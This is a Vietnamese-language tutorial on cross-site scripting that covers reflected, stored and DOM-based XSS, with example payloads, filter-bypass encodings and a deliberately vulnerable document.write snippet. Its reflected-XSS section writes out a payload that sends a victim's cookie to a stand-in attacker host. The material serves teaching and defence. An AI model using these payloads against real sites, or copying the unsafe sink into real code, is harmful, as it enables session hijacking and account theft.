

/*Note: Trước khi vào bài này mình cần phải trang bị kiến thức cơ bản về html, js.*/
Cross-site scripting (XSS) là lỗ hổng client-side, liên quan đến việc điều khiển website trả về một đoạn script độc đến các user. Cuộc tấn công XSS xảy ra khi:
Script độc có thể được gửi bằng bất kì ngôn ngữ nào mà browser có thể thực hiện, nhưng thường là Javascript. Attacker có thể lấy dữ liệu nhạy cảm (cookie, session), chuyển hướng victim đến web khác, hoặc thực hiện các script độc hại dưới danh website.
Chúng ta có thể xác nhận lổ hổng XSS bằng cách inject một payload hoặc một đoạn mã JavaScript nào đó để browser thực hiện.
Hàm alert() là lựa chọn hợp lí nhất cho mục đích trên, nhưng không phải duy nhất.
XSS attacks cũng có thể tiến hành mà không cần tag <script>...</script>, chúng ta có thể sử dụng thuộc tính như: onload, onmouseover, onerror.
Ví dụ
<body onload=alert('Yolooo! Woohoo!')>
<b onmouseover=alert('Wufff!')>click me!</b>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
Trong trường hợp cần phải bypass filter, có thể thử encode kí tự và để trong <img>.
Ví dụ
<IMG SRC=jAvascript:alert('Aahhoo')>
Ngoài ra, có thể encode script bằng base64 và đặt nó ở <meta>.
Cách này loại bỏ hoàn toàn hàm alert().
Ví dụ
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnS2FrYXd3Jyk8L3NjcmlwdD4=">
Có 3 loại tấn công XSS:
Relfected XSS (non-persistent) phát sinh khi một web application nhận dữ liệu trong request và trả về chính phần dữ liệu đó trong response ngay lập tức.
Giả sử trong một website bán hàng, bạn muốn tìm kiếm sản phẩm với từ khóa backpack:
http://vulnerable.shop.website/search?item=backpack
Lúc này, website sẽ response dòng chữ You searched for: backpack cùng với kết quả tìm kiếm backpack:
<p>You searched for: backpack</p>
Giả sử website không thực hiện các biện pháp xử lí input, attacker có thể dễ dàng inject script:
https://vulnerable.shop.website/status?item=<script>alert(1)</script>
URL response như sau:
<p>You searched for: <script>alert(1)</script>
Khi xác nhận website bị lỗi, attacker gửi đến victim URL bằng bất kì phương tiện nào (tin nhắn, email, comment,...):
http://vulnerable.shop.website/search?item= <script>window.location="http://attackersite.com/?cookie="%20+%20document.cookie</script>
Khi click vào URL trên, browser của nạn nhân sẽ request đến website, sau đó web server sẽ response victim với script được attacker inject:
<script>window.location="http://attackersite.com/?cookie="%20+%20document.cookie</script>
Browser nạn nhân sẽ thực hiện script do server response, request cookie đến host của attacker. Attacker chỉ cần lấy cookie và mạo danh người dùng.
Stored XSS (second-order hay persistent XSS) phát sinh khi web application nhận data từ untrust source và lưu ở server như database. Khi user truy cập vào, server sẽ response đến user.
Giả sử một website cho phép comment trong một bài post, và hiển thị cho tất cả người dùng. User sẽ submit một HTTP request như sau:
POST /post/comment HTTP/1.1 Host: vulnerable-website.com Content-Length: 100 postId=3&comment=This+post+was+extremely+helpful
Sau khi submit, những user truy cập vào post đều sẽ nhận được response:
<p>This post was extremely helpful.</p>
Và nếu như website không có bất kì biện pháp xử lí dữ liệu đầu vào nào, attacker dễ dàng inject các script:
comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
Tất cả user truy cập vào post sẽ nhận được response:
<p><script>alert(1)</script></p>
Khác với reflected XSS, khi người dùng cần phải click vào link do attacker gửi đến thì mới bị tấn công. Với stored XSS, bất kì user nào request site có phần comment đều sẽ bị tấn công. Điều đó cho thấy stored XSS có phần nguy hiểm hơn và phạm vi nạn nhân sẽ rộng hơn.
DOM (Document Object Model - Mô hình đối tượng tài liệu), là một giao diện lập trình ứng dụng. Thông thường, DOM có dạng một cây cấu trúc dữ liệu, được dùng để truy xuất các tài liệu dạng HTML và XML - (Wikipedia).
DOM-based xảy ra khi một website nhận dữ liệu bằng JavaScript, sau đó chuyển đến một hàm không an toàn nào đó.
document.URLUnencoded, document.html, location.search,...eval(), document.write(), innerHTML,...Lỗ hổng DOM-based XSS phát sinh khi JavaScript lấy dữ liệu từ soure của attacker và đặt nó vào sink. Khác với reflected XSS và stored XSS, khi script độc được trả về trong phần HTTP response, DOM-based XSS thực thi code đã bị sửa đổi trong DOM.
Ví dụ:
Một trang web bán hàng với chức năng hiển thị sản phẩm khi user nhập tên sản phẩm:
...
<p>
<script>
var pos=document.URL.indexOf("item=")+5;
document.write('<img src=/url/to/file/"'+document.URL.substring(pos,document.URL.length)+'">');
</script>
</p>
...
Đoạn JavaScript trên lấy source từ user bằng document.URL.indexOf và đưa nó vào sink document.write để in ra.
Khi request http://vulnerable.shop.website/search?item=backpack thì input backpack sẽ được đưa vào document.write() mà không có giai đoạn xử lí thích hợp. Vì thế, attacker sẽ dễ dàng tấn công bằng cách request URL như sau:
http://vulnerable.shop.website/search?item=backpack<script>alert(1)<script>